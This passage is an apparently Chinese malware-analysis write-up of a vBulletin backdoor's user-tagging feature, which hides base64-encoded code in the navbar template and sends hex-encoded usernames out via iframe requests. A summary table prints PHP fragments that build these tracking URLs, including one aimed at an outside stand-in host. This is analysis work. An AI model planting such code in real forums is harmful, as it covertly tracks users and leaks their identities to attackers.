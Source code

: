 ![](http://reverse-tcp.xyz/static/img/media/8ae0c14f4800697243b0117446cf44f4.png)

#### Tag

Tag代码大体上分为两种，第一种是在建立代理时，脚本会自动加一个proxytag，我们可以使用findAll查看，默认是植入在navbar
template当中。

![](http://reverse-tcp.xyz/static/img/media/c04a0a9160917bb864105a7ba8eae1b9.png)

生成的Tag代码大致如下，相对复杂一些，可以发现tag代码和vBulletin代码高度融合，同样的我也在在代码当中加了一些注释方便大家理解，有兴趣的同学可以自己调试一下。tag代码的主要用途就是经过一些条件判断后触发page
view，比较有意思的是tag代码要触发show
page必须在第一次标记用户后的一天内，超过一天就无效了，只能进行reset，有点自毁程序的意思，并且在第一次标记用户后会产生一个默认为0-6的随机数，随机数随访问次数递减，直至为0时才会触发通过iframe标签触发page
view，触发后该数值会再次减1到-1，并返回用户已被标记等待重置，但该功能在这里的意图目前尚不清楚。

![](http://reverse-tcp.xyz/static/img/media/919b3aff853bd1947fc4e4d6ef874cf8.png)

![](http://reverse-tcp.xyz/static/img/media/28c02e6a366140bd9d7d8a938d5924c2.png)

看一下proxytag的复现过程

某vb论坛用户登录后访问了类似链接查看私信内容：

<http://127.0.0.1:8888/vbulletin/private.php?do=showpm&pmid=14>

黑客可以通过showTagged可以查看到当前已被标记用户，并在该用户第一次访问时产生随机数4

![](http://reverse-tcp.xyz/static/img/media/03ed3c009322c218edaa27d2df3ec166.png)

也就是在该用户访问该页面4次后触发page
view，发送携带当前用户名的hex编码的请求。猜测可能是用于标记特定用户再发起针对性攻击。

![](http://reverse-tcp.xyz/static/img/media/418904cb9b388d1f036e2e181c532c03.png)

再次使用showTagged查看发现该用户已被标记并等待重置

![](http://reverse-tcp.xyz/static/img/media/a58493ebfb304893b5128e75827e2a20.png)

第二种则是使用tag命令直接插入的tag代码，这里要细分的话也可以按照是否使用nohttp分为两类，可以从代码上看出它们的区别

![](http://reverse-tcp.xyz/static/img/media/e5378214ee6f982d3d8d9e76301ee7fe.png)

对Tag进行了一个总结

| **Tag Type** | **nohttp** | **Iframe link Example**                  |  **Requester**   |           **Responser**           | **Possible uses** |
| :----------: | :--------: | :--------------------------------------- | :--------------: | :-------------------------------: | :---------------: |
|   proxytag   |            | \$htt = "showpost.php/aaa/bbb/ccc/111/ddd/"; \$htt = \$htt . bin2hex(substr(\$u,0,14)) . ".html"; | vBulletin Server | Intranet Server Or Another Server |         ？         |
|     tag      |    Yes     | \$htt = "/test/not_used_nohttp/"; \$htt = \$htt . bin2hex(substr(\$u,0,14)) . ".html"; | vBulletin Users  |         vBulletin Server          |   Apache logs？    |
|              |     No     | \$htt = "http://target.com/test/not_used_nohttp/"; \$htt = \$htt . bin2hex(substr(\$u,0,14)) . ".html"; | vBulletin Users  |         Equation Servers?         |    Tag Users？     |

这里不使用 –nohttp进行功能复现，同样是通过base64加密后放在了navbar template中
